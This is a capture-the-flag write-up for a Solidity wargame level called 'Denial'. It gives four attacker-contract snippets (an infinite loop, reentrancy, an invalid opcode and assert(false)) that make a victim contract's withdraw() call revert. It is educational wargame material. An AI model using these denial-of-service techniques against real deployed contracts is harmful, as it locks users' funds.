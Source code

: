 ## 20 Denial

To beat this level, we need to comply with

```solidity
if (address(instance).balance <= 100 wei) { // cheating otherwise
    return false;
}

// fix the gas limit for this call
(bool result,) = address(instance).call{gas:1000000}(abi.encodeWithSignature("withdraw()")); // Must revert
return !result;
```

In other words, we got to prevent the instance to have their funds withdrawn by making the function revert, but we can't just empty the level contract.

### Solution 1 - Infinite Loop

An infinite loop will just consume all the gas, reverting the transaction.

```solidity
// infinite loop
// "EvmError: OutOfGas"
while (true) {}
```

### Solution 2 - Reentrancy Attack

When your attacking contract receives payment, call `withdraw()` again

```solidity
// reentrancy attack
// "EvmError: OutOfGas"
challenge.withdraw();
```

### Solution 3 - Invalid Opcode

Just issue an invalid opcode to revert

```solidity
// invalid opcode
// "EvmError: InvalidOpcode"
assembly { invalid() }
```

### Solution 4 - OOG with `assert(false)`

`assert(false)` will consume all the remaining gas in the transaction.

For some reason is not working in Solidity 0.8.18, though. See [here](https://ethereum.stackexchange.com/a/113362) for some insights/

```solidity
// consume all the gas with an assert(false)
// for some reason is not working in solidity > 0.8.5
//   see this link
//   https://ethereum.stackexchange.com/a/113362
assert(false);
```
